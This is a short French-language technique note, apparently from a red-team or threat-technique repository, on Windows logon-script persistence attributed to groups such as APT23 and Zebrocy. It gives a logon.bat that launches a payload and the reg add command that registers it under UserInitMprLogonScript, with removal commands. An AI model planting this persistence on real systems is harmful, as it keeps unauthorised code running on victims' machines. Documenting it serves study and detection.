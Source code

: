 
> [!NOTE] APT23, Cobalt Group, Zebrocy

Quand un utilisateur se connecte, il y'a un processe qui s'appele `UserInit` qui fait un tas de chose pour l'utilisateur et l'un d'eux lance le `Logon Scripts` et c'est une fonctionnalite que nous pouvons utiliser.

Contenu de `logon.bat` qui contient le chemin absolut vers le payload

```c
@ECHO OFF
C:\pers\payload.exe
```

---

Setup:

```c
reg query "HKEY_CURRENT_USER\Environment"
```

```sh
reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /d "c:\pers\logon.bat" /t REG_SZ /f
```

_Supprimer_:
```http
reg delete "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /f
```


